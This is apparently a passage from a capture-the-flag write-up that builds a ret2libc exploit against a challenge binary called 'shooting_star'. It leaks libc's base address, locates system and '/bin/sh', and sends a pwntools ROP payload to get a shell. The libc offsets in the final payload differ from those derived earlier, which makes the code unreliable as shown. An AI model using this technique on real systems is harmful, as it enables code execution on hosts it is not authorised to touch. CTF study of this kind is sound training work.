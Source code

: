 First, let's find the location of `libc`.
```
ldd shooting_star
        linux-vdso.so.1 (0x00007fff35362000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f6f2a3f5000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f6f2a5fa000)
```
It's at `/lib/x86_64-linux-gnu/libc.so.6`.
Now we can start getting our addresses and offsets. If we get the offset of the write function, then we can do LEAKED_GOT_WRITE - OFFSET which gives us the base address for `libc`.
```zsh
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep write
00000000000ff4d0   157 FUNC    WEAK   DEFAULT   16 write@@GLIBC_2.2.5
```
`0x7f8b78be34d0 - 0xff4d0` will be the base address, let's add it to our exploit script
```python
libc_base = 0x7f8b78be34d0 - 0xff4d0
```
Now, let's find the system call by using `grep` to search for it
```zsh
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
000000000004dab0    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
```
Similarly, let's add it to our exploit script
```python
system_call = libc_base + 0x4dab0
```
Finally, let's find the address of the `/bin/sh` string using `strings`
```zsh
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
	197e34 /bin/sh
```
And add it to our exploit script
```python
bin_sh_string = libc_base + 0x197e34
```
One more thing, we will need another gadget to overwrite the RDI register to pass parameters to the system function. Use the steps as before to use `ropper` to locate this gadget. You'll need to add it to your exploit script e.g.
```python
pop_rdi = 0x4012cb # pop rdi; ret;
```
### Step 4 - Payload Delivery
Now, we can create and send our payload
```python
libc_base = got_write - 0x110210
system_call = libc_base + 0x4f550
bin_sh_string = libc_base + 0x1b3e1a

payload = flat({
	offset: [
		pop_rdi,
		bin_sh_string,
		system_call
	]
})

io.sendline('1')
io.sendlineafter(b'>>', payload)
io.recvuntil("May your wish come true!\n")
io.interactive()
```
When you run this, you should get a shell!
### Handling Different Libc Versions